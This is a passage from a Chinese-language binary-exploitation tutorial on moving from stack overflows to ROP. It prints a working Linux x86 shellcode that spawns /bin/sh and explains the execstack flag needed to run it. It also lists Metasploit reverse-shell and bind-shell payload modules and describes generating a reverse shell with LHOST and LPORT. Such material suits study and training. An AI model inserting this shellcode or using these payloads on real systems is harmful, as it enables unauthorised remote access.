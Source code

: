 上图方框部分就是编写的shellcode，提取这些指令的机器码如下：

```
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```

- 测试提取后的shellcode

![img](images/从栈溢出到ROP/shellcode4.png)

上面这段代码中，shellcode存储在全局字符数组中，属于.data section，编译器默认其不可执行，必须加上选项-z execstack，即开启栈/堆/数据段可执行。

- metaspolit常见shellcode

```
payload/linux/x86/shell_reverse_tcp  # linux x86平台反连shellcode，受害者反连至攻击者主机端口，并开启shell
payload/linux/x64/shell_bind_tcp     # 受害者监听某端口，攻击者连接后即可获取shell，linux x64平台
payload/linux/x86/exec               # 启动指定程序，例如/bin/sh
payload/linux/x64/read_file          # 读取指定文件并输出至fd，linux x64平台
payload/windows/shell_reverse_tcp    # windows平台反连shellcode，受害者反连至攻击者主机端口，并开启shell
payload/windows/shell_bind_tcp       # 受害者监听某端口，攻击者连接后即可获取shell，windows平台
```

- metasploit生成shellcode

使用use命令选择一个shellcode模块，此处选择payload/linux/x86/shell_reverse_tcp，linux x86平台下的反连shellcode

generate命令可以生成shellcode

查看选项，可以通过CMD变量名指定命令，默认为/bin/sh，可以通过LHOST和LPORT指定反连IP地址和端口。
